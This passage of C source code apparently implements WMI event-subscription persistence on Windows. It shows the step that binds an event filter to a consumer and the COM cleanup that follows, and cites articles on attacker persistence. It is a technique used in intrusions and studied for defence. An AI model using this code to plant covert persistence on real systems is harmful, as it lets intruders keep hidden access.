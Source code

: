 ```c
    pBinderInstance->lpVtbl->Put(pBinderInstance,Consumer,0,&v,0);
    VariantClear(&v);
    //21.Saving changes for Modified __FilterToConsumerBinding Instance
    pServices->lpVtbl->PutInstance(pServices,pBinderInstance,WBEM_FLAG_CREATE_OR_UPDATE,0,0);
    if (FAILED(hres)){
        printf("Modified FilterToConsumerBinding class instance wasn't properly written\n");
        goto cleanup;

    }else{
        printf("FilterToConsumerBinding class instance was properly written\n");
    }
    //CLEANUP
    if(pFilterInstance){
        pFilterInstance->lpVtbl->Release(pFilterInstance);
        pFilterInstance =NULL;
    }
    if(pBinderInstance){
        pBinderInstance->lpVtbl->Release(pBinderInstance);
        pBinderInstance=NULL;
    }
    if(pConsumerInstance){
        pConsumerInstance->lpVtbl->Release(pConsumerInstance);
        pConsumerInstance =NULL;
    }

    pObject->lpVtbl->Release(pObject);
    pServices->lpVtbl->Release(pServices);
    CoUninitialize();

cleanup:
    if (pConsumer){
        pConsumer->lpVtbl->Release(pConsumer);
    }
    if(pFilter){
        pFilter->lpVtbl->Release(pFilter);
    }
    if(pBinder){
        pBinder->lpVtbl->Release(pBinder);
    }
    if(pServices){
        pServices->lpVtbl->Release(pServices);
    }
    if(pObject){
        pObject->lpVtbl->Release(pObject);
    }



return 1;


}
```

ref: https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/

https://docs.microsoft.com/en-us/windows/win32/wmisdk/receiving-a-wmi-event

https://www.fireeye.com/blog/threat-research/2017/03/dissecting_one_ofap.html
